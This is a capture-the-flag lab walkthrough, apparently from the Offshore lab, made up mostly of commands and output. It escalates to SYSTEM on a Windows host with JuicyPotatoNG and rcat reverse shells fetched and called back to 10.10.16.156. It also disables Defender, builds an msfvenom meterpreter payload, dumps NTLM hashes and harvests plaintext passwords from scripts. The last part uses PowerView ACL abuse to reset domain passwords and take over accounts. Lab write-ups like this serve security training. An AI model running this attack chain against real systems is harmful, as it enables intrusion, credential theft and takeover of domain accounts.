






Credentials for cyber_adm for WEB-WIN01
PS C:\Windows\system32> whoami /priv
whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token Disabled
SeIncreaseQuotaPrivilege Adjust memory quotas for a process Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeImpersonatePrivilege Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
There is SeImpersonatePrivilege so we can use JuciyPotatoNG to do another RCAT to privesc.
PS C:\Windows\system32> certutil -urlcache -split -f http://10.10.16.156/JuicyPotatoNG.exe c:\temp\jp.exe
certutil -urlcache -split -f http://10.10.16.156/JuicyPotatoNG.exe c:\temp\jp.exe
**** Online ****
000000 ...
025800
CertUtil: -URLCache command completed successfully.
PS C:\Windows\system32> dir c:\temp
dir c:\temp
Directory: C:\temp
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 5/1/2023 6:41 PM 153600 jp.exe
-a---- 5/1/2023 6:35 PM 2625155 rcat.exe
Use JP to launch RCAT as privileged
PS C:\Windows\system32> c:\temp\jp.exe -t * -p "c:\windows\system32\cmd.exe" -a "/c C:\temp\rcat.exe connect 10.10.16.156 5555"
c:\temp\jp.exe -t * -p "c:\windows\system32\cmd.exe" -a "/c C:\temp\rcat.exe connect 10.10.16.156 5555"
└─$ ./rcat listen 10.10.16.156 5555
Listening on 10.10.16.156:5555
[+] Connection from 10.10.110.3:50308
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.
PS C:\> whoami
whoami
nt authority\system
Turn off Defender so we can upload a meterpreter rev shell
PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableRealtimeMonitoring $true
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.156 LPORT=5556 -f exe > revshell.exe
└─$ msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.16.156
LHOST => 10.10.16.156
msf6 exploit(multi/handler) > set LPORT 5556
LPORT => 5556
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.16.156:5556
[*] Sending stage (200774 bytes) to 10.10.110.3
[*] Meterpreter session 1 opened (10.10.16.156:5556 -> 10.10.110.3:25403) at 2023-05-01 18:51:33 -0400
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
Now we can dump creds
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
justalocaladmin:1002:aad3b435b51404eeaad3b435b51404ee:e56836b7e6c6a3bf2aece7a8dc2c1fb7:::
Snag the flags
C:\Users\Administrator\Desktop>type flag.txt
type flag.txt
C:\Users\MSSQL$SQLEXPRESS\Desktop>type flag.txt
type flag.txt
OFFSHORE{cm0n!_an0th3r_sqli!?}
Look for any other files of interest in the profiles under C:\users\ with Powershell script that looks for .bat and .ps1 files
$totalFiles = (Get-ChildItem -Path "C:\users\" -Recurse -Force -ErrorAction SilentlyContinue -File -Include *.ps1, *.bat).Count
$processedFiles = 0
Get-ChildItem -Path "C:\users\" -Recurse -Force -ErrorAction SilentlyContinue -File -Include *.ps1, *.bat | ForEach-Object {
$filePath = $_.FullName
if ($_ -match '\.(ps1|bat)$') {
Write-Host $filePath
}
$processedFiles++
$percentComplete = [Math]::Round(($processedFiles / $totalFiles) * 100)
Write-Progress -Activity "Searching files..." -PercentComplete $percentComplete -Status "$processedFiles/$totalFiles files searched"
}
PS C:\temp> .\search.ps1
C:\users\All Users\Microsoft\AppV\Setup\OfficeIntegrator.ps1
C:\users\Public\Libraries\share.bat
Something interesting in share.bat
PS C:\temp> type c:\users\public\libraries\share.bat
@echo off
net use Z: \\fs01\users\bill\documents /user:CORP\bill "I like to map Shares!"
If we open this file and mount the directory, there is a flag.txt
OFFSHORE{sl0ppy_scr1pting_hurt$}
There is also a backup script so let's check that

More network creds - pgibbons : “I l0ve going Fishing!”
Let's check the Bloodhound dump of corp.local we got while on WSADM, see if we can use these credentials.

From what it looks like, pgibbons can make himself the owner of salvador and reset his password to take over that account.
To run these commands, you need to be logged in as a domain user so use RDP to 172.16.1.36 with ned.flanders_adm / Lefthandedyeah!
. .\..\..\temp\PowerView.ps1
$pass = convertto-securestring "I l0ve going Fishing!" -asplaintext -force
$cred = new-object system.management.automation.pscredential("CORP\pgibbons", $pass)
set-domainobjectowner -identity salvador -owneridentity pgibbons -credential $cred
add-domainobjectacl -targetidentity salvador -principalidentity pgibbons -credential $cred
$userpassword = convertto-securestring 'password123!' -asplaintext -force
set-domainuserpassword -identity salvador -accountpassword $UserPassword -credential $cred -verbose

Now with salvador's new password, we can self-add salvador to Security Engineers.
$cred = new-object system.management.automation.pscredential("CORP\salvador", $UserPassword)
add-domaingroupmember -identity 'Security Engineers' -members salvador -credential $cred
get-domaingroupmember -identity 'Security Engineers'

Members of Security Engineers have AllExtendedRights over cyber_adm so we can reset that account password too
$userpassword = convertto-securestring 'password123!' -asplaintext -force
set-domainuserpassword -identity cyber_adm -accountpassword $UserPassword -credential $cred -verbose

If we spray with cyber_adm and the new password, we can see it's an admin on WEB-WIN01
